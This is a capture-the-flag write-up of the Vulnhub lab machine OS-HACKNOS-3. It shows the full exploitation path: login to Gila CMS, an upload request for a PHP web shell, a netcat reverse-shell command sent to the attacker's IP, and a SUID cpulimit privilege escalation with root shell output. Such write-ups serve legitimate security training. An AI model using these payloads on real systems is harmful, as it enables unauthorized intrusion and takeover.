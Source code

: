 ```yaml
---
layout: post
title:  "Vulnhub: OS-HACKNOS-3"
date:   2021-02-05 20:00:00 +1100
category: hacking
---
```


## OS-HACKNOS-3
*Difficulty: Intermediate*

This is [OS-HACKNOS-3](https://www.vulnhub.com/entry/hacknos-os-hacknos-3,410/) from Vulnhub. 

## Ports
SSH and HTTP only.

## Web
At the website, some dirsearch works reveals two different webapps. We've got Gila CMS running at http://hacknos/websec/, and OSTicket running at http://hacknos/devil/. 

I try brute forcing both login pages but both have brute force prevention turned on. Hmmmm.

More gobusting/dirsearching doesn't reveal any hidden files. I find the Gila CMS version at http://hacknos/websec/src/core/package.json:

>"name":"Gila CMS",  
>"version":"1.10.9"

The only exploit appears to be authenticated. Now what?

We've got an email address on the page (contact@hacknos.com), and the password is also there: Securityx. Not sure if I like this. Anyway, it is what it is. I log in.

## Shell
This is basically the same as CMess. So it's upload a PHP file:

{% highlight html %}
POST /websec/fm/upload HTTP/1.1
Host: hacknos
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------23389978733447017971996593840
Content-Length: 518
Origin: http://hacknos
Connection: close
Referer: http://hacknos/websec/admin/fm?f=tmp/media_thumb
Cookie: PHPSESSID=sqaa0obitlhun1qteocji6h32g; GSESSIONID=18n0m8v84326e71jg9obndts4wahpbun86b1tda26ro0hkfmfr

-----------------------------23389978733447017971996593840
Content-Disposition: form-data; name="uploadfiles"; filename="shell.phtml"
Content-Type: application/octet-stream
<?php system($_GET['cmd']);?>
-----------------------------23389978733447017971996593840
Content-Disposition: form-data; name="path"
tmp/media_thumb
-----------------------------23389978733447017971996593840
Content-Disposition: form-data; name="g_response"
content
-----------------------------23389978733447017971996593840--
{% endhighlight %}

Now visit the file and send it a shell command:

``
GET /websec/tmp/media_thumb/shell.phtml?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.1.150+1234+>/tmp/f HTTP/1.1
``

## Privesc
I run linpeas and we have SUID on *cpulimit*, just like Hannah from Vulnhub. 

I've got no compiler so it's like this:

{% highlight shell %}
www-data@hacknos:/dev/shm$ cd /tmp
cd /tmp
www-data@hacknos:/tmp$ cpulimit -l 100 -f mkdir /something
cpulimit -l 100 -f mkdir /something
Process 27562 detected
Child process is finished, exiting...
www-data@hacknos:/tmp$ cpulimit -l 100 -f chmod 4755 /usr/bin/bash
cpulimit -l 100 -f chmod 4755 /usr/bin/bash
Process 27564 detected
Child process is finished, exiting...
www-data@hacknos:/tmp$ cpulimit -l 100 -f cp /usr/bin/bash /something 
cpulimit -l 100 -f cp /usr/bin/bash /something 
Process 27566 detected
Child process is finished, exiting...
www-data@hacknos:/tmp$ cpulimit -l 100 -f chmod +s /something/bash 
cpulimit -l 100 -f chmod +s /something/bash 
Process 27568 detected
Child process is finished, exiting...
www-data@hacknos:/tmp$ cd /something
cd /something
www-data@hacknos:/something$ ./bash -p
./bash -p
bash-5.0# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-5.0# cd /root
cd /root
bash-5.0# ls -lash
ls -lash
total 56K
4.0K drwx------  8 root root 4.0K Dec 14  2019 .
4.0K drwxr-xr-x 21 root root 4.0K Feb  5 09:36 ..
4.0K -rw-------  1 root root  162 Dec 14  2019 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Aug 27  2019 .bashrc
4.0K drwx------  2 root root 4.0K Dec 13  2019 .cache
4.0K drwxr-xr-x  3 root root 4.0K Dec 13  2019 .composer
4.0K drwx------  3 root root 4.0K Dec 13  2019 .gnupg
4.0K drwxr-xr-x  3 root root 4.0K Dec 13  2019 .local
4.0K -rw-r--r--  1 root root  148 Aug 27  2019 .profile
4.0K drwx------  2 root root 4.0K Dec 10  2019 .ssh
8.0K -rw-------  1 root root 6.5K Dec 13  2019 .viminfo
4.0K -rw-r--r--  1 root root  547 Dec 13  2019 root.txt
4.0K drwxr-xr-x  3 root root 4.0K Dec 10  2019 snap
bash-5.0# cat root.txt
cat root.txt
# ASCII art removed
MD5-HASH: bae11ce4f67af91fa58576c1da2aad4b
Author: Rahul Gehlaut
Blog: www.hackNos.com
Linkedin: https://in.linkedin.com/in/rahulgehlaut
{% endhighlight %}

3.6 Roentgen. Not great. Not terrible.
